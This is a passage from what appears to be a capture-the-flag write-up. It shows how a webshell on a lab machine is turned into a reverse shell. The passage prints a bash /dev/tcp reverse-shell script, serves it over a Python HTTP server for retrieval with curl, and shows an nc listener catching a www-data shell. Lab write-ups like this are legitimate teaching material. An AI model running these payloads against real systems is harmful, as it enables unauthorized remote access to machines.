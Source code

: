 ![webshell_!](./img/webshell_1.png)

I can't execute a reverse shell directly from the webshell, so I serve the reverse shell payload externally and retrieve it from the webshell using `curl`.

```
❯ cat rev.sh
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rev.sh
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ bash -c 'bash -i >& /dev/tcp/10.10.14.24/9001 0>&1'
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

![webshell_2](./img/webshell_2.png)

```
❯ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.213 53386
bash: cannot set terminal process group (621): Inappropriate ioctl for device
bash: no job control in this shell
www-data@format:~/microblog/junk/uploads$
```
